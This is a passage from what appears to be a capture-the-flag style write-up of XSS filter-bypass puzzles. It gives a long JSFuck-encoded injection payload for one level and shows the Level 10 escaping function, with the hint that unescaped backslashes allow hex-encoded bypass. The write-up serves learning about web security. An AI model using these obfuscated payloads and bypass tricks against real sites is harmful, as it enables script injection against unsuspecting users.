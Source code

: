 Since angle brackets are closed here, there is no other way than to use [JSFuck](www.jsfuck.com) (non-alphanumeric javascript).

Payload: `"+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])())//`

I am not sure of any other ways to solve this. If you know a shorted method, please do comment on this post and let us discuss (I have seen some but was a bit difficult to understand) :)


#### Level 10:

{% highlight javascript lineos %}

function escape(s) {
  function htmlEscape(s) {
    return s.replace(/./g, function(x) {
       return { '<': '&lt;', '>': '&gt;', '&': '&amp;', '"': '&quot;', "'": '&#39;' }[x] || x;       
     });
  }

  function expandTemplate(template, args) {
    return template.replace(
        /{(\w+)}/g,
        function(_, n) {
           return htmlEscape(args[n]);
         });
  }

  return expandTemplate(
    "                                                \n\
      <h2>Hello, <span id=name></span>!</h2>         \n\
      <script>                                       \n\
         var v = document.getElementById('name');    \n\
         v.innerHTML = '<a href=#>{name}</a>';       \n\
      <\/script>                                     \n\
    ",
    { name : s }
  );
}
{% endhighlight %}

This one comes inside the script context with quotes and angle brackets filtered. But one thing to note here is that the backslash is not escaped. So the easiest way here is to hex encode.
